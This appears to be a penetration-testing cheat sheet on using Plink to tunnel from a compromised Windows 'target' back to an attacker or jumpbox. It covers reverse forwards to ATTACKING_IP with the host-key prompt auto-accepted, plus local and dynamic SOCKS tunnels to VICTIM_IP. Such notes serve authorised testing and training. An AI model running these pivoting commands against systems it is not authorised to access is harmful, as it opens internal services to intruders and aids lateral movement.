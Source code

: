 # Plink

## It's a windows command line version of the PuTTY SSH client.

### Remote port forward via hostkey of jumpbox

## Requirements: Read the public key of the host

    cat /etc/ssh/ssh_host_ed25519_key.pub

## Then on target

    .\plink.exe -ssh -l USER -pw PASSWORD -R 1433:127.0.0.1:1433 -hostkey KEY_SIGNATURE JUMPBOX_IP

### 

    cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

### Convert keys with puttygen for Plink: 

    puttygen KEY -o KEY.ppk

## Local SSH Tunneling 

    plink.exe -L PORT:TARGET_IP:TARGET_PORT USER@VICTIM_IP

### Then browse to: 

    127.0.0.1:PORT

## Dynamic SSH Tunneling

    plink.exe -D PORT USER@VICTIM_IP (Execute on target)

### Then configure connections from Kali machine 

#### 1) Open browser, then Connection Settings

#### 2) Manual Proxy configuration

#### 3) SOCKS Host 127.0.0.1 port PORT

#### 4) SOCKSv5 button

#### 5) No proxy for: 127.0.0.1

#### 6) Browse to TARGET_IP

## Alternate method: Proxychains
